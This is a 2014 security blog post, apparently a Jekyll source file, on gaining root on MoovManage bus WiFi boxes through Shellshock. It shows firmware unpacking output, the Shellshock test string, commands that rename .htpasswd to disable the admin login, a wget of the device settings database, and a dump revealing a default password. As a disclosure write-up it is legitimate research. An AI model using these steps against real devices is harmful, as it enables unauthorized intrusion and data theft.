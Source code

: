 ```yaml
---
layout: post
title:  "Remote Root via ShellShock in MoovManage Endpoint Devices (and some post exploitation exploration!)"
date:   2014-12-01 23:00:00
---
```


Ok, so we are all, by now, probably familiar with the [Shellshock][shellshock] vulnerability in Bash, and the fact that it can be exploited remotely via various vectors, including CGI scripts that call out to the Bash shell.

Now, I always had some questions about those annoying [Moovmanage][moovmanage] WiFi boxes on buses, which provide free (albeit censored) WiFi, and sometimes inject advertizements into your HTTP traffic. Which, naturally, I found a tad offensive. A good while back I had a quick poke at them, but recently, I struck fucking gold when I came across a site that offered downloads of firmware binaries for a whole heap of different versions.

## Unpacking MoovEngine Binary

This was trivial, accomplished by using [Binwalk][binwalk] and uncramfs from [Firmware Mod Kit][fmk]. Just used binwalk to get the cramfs filesystem out and uncramfs to unpackage it into a directory for analysis. This takes only a few minutes normally (with binwalk constantly improving, soon it will likely only take seconds!), and sure as hell beats going over it with a fucking hex editor or whatever!

{% highlight bash %}
root@unsanitized:~/hacking_moovbox# binwalk -e M220-1.9.0.fw 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
100           0x64            CramFS filesystem, little endian size 14569472 version #2 sorted_dirs CRC 0x81dfea32, edition 0, 7640 blocks, 1185 files

root@unsanitized:~/hacking_moovbox# cd _M220-1.9.0.fw.extracted/
root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted# /opt/firmware-mod-kit/src/uncramfs/uncramfs fs 64.cramfs 
[Volume size: 0xde5000]
[Volume serial: 32eadf8100000000d81d0000a1040000]
[Volume name: Compressed]

drwxr-xr-x 0/0               372(372)     /

/:
drwxr-xr-x 0/0                84(84)      admin
drwxr-xr-x 0/0              1672(1672)    bin
drwxr-xr-x 0/0                 0(0)       boot
lrwxrwxrwx 0/0                10(22)      caps -> /boot/caps
drwxr-xr-x 0/0                20(20)      dev
drwxr-xr-x 0/0              1384(1384)    etc
drwxr-xr-x 0/0              2568(2568)    lib
lrwxrwxrwx 0/0                12(24)      linuxrc -> /bin/busybox
drwxr-xr-x 0/0                 0(0)       lost+found
drwxr-xr-x 0/0                 0(0)       proc
drwxr-xr-x 0/0               108(108)     ro
lrwxrwxrwx 0/0                 8(20)      root -> /rw/root
drwxr-xr-x 0/0                 0(0)       rw
drwxr-xr-x 0/0              2588(2588)    sbin
drwxr-xr-x 0/0                 0(0)       sys
lrwxrwxrwx 0/0                12(24)      templates -> rw/templates
lrwxrwxrwx 0/0                 7(19)      tmp -> /rw/tmp
drwxr-xr-x 0/0               108(108)     usr
lrwxrwxrwx 0/0                 7(19)      var -> /rw/var
-rw-r--r-- 0/0           1432848(1428569) vmlinuz
drwxr-xr-x 0/0                24(24)      webserver

NOTE: SNIPPED BECAUSE REASONS.

[Summary:]
[Total uncompressed size:     29718558]
[Total compressed size:       14834791]
[Number of entries:               1178]
[Number of files compressed:       902]
[Number of files expanded:         276]

root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted#
{% endhighlight %}

## Symlinks are fun too!

Acting on a whim, due to the recent [Shellshock][shellshock] funtimes, and my recently written [shellshock exploit][shellsploit], I decided to go check if "bash" was being used on these things, as they seemed to be a bit more than just a simple Busybox setup.

{% highlight bash %}
root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted/fs/bin# ls -l ./sh
lrwxrwxrwx 1 root root 4 Oct  6 23:38 ./sh -> bash
root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted/fs/bin#
{% endhighlight %}

Naturally, the next thing to do was determine if it was a version vulnerable to shellshock. Lo and behold, it was.

{% highlight bash %}
root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted/fs/bin# env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
vulnerable
this is a test
root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted/fs/bin# 
{% endhighlight %}

## Yes, hello, CGI scripts?

In /admin/www/, there are a couple of interesting files.
{% highlight bash %}
root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted/fs/admin/www# ls -a
.
..
admin 
css 
images 
index.cgi 
js
root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted/fs/admin/www# 
{% endhighlight %}

I decided to take a look at "index.cgi" file, as it looked likely to contain some fun.

{% highlight bash %}
root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted/fs/admin/www# 
#!/bin/sh


echo "Status: 301 Moved Permanantly\n";
echo "Location: /admin/configurator"
echo ""
root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted/fs/admin/www# 
{% endhighlight %}

Now, at first, this does *not* look all that interesting. Until you realize what that CGI script is calling. /bin/sh. Which we noticed calls /bin/bash...

## Remote Root, shitty configs.

From the above, when we realized the Bash version on these things was vulnerable to Shellshock, we can now infer that these things are, in fact, vulnerable to Shellshock. Our privs will be limited only by the webserver on them. This being an *embedded* device, we fully expect the webserver will be running as the "root" user. So our shellshocking will be demolishment.

{% highlight bash %}
root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted/fs/etc/mini_httpd# cat config
nochroot
dir=/var/www
cgipat=**.cgi
user=root
root@unsanitized:~/hacking_moovbox/_M220-1.9.0.fw.extracted/fs/etc/mini_httpd#
{% endhighlight %}

That config seems really, really sane... Specifying no chroot... Specifying to run as root (it can drop privs, you know!)... Good times! So now we know that whatever code we run using the Shellshock exploit will run as root. Game over.

## Disabling (temporarily) auth...

The .htaccess file on the box, in /admin/www/admin (protecting the configurator binary, which is the web interface CGI thing) is actually a symlink.

{% highlight bash %}
.htpasswd -> /rw/admin/.htpasswd
{% endhighlight %}

Now, you will notice the /rw/ in the path. Much of the filesystem on this device is, in fact, read only. Luckily for us, the .htaccess is updateable, and is kept in the read/write part of the filesystem.

In order to disable the authentication, we simply rename the stupid .htaccess file.

{% highlight bash %}
mv /rw/admin/.htpasswd /rw/admin/htpw
{% endhighlight %}

Now, if we visit the web interface, we are fully authenticated and can do whatever we like. To re-enable the auth, just move the file back, as follows.

{% highlight bash %}
mv /rw/admin/htpw /rw/admin/.htpasswd
{% endhighlight %}

## Database files! Snarfing config!

Once you have bypassed the auth, you can either pop into the thing and retrieve the sqlite3 database manually... Or you can just wget it like I did.

{% highlight bash %}
# the following command downloads the sqlite3 database once auth is removed
wget --no-check-certificate https://10.0.0.1/admin/moovbox.settings
{% endhighlight %}

Now, we want to retrieve the settings from this database, right?

{% highlight bash %}
root@unsanitized:~/hacking_moovbox# sqlite3 moovbox.settings
SQLite version 3.8.7.1 2014-10-29 13:59:56
Enter ".help" for usage hints.
sqlite> .tables
ethernet         setting          vap            
interface_group  static_routes    vlan           
port_forwards    tunnels          wifi           
sqlite> select * from setting;
cfg_version|15
password|password
gateway|
dns_primary|0.0.0.0
dns_secondary|
# snipped
{% endhighlight %}




> wtf packet sniffer? libpcap? Some kinda debug feature...

> How nice. A code injector! (banner ad injector using Privoxy)

> (theoretical) BeEF The Bus!

> Unauthorized firmware upgrades for persistence...

> All Your Passwords (sidenote).

> This is only the beginning.


[shellshock]:
[moovmanage]: 
[shellsploit]:
[binwalk]:
[fmk]:

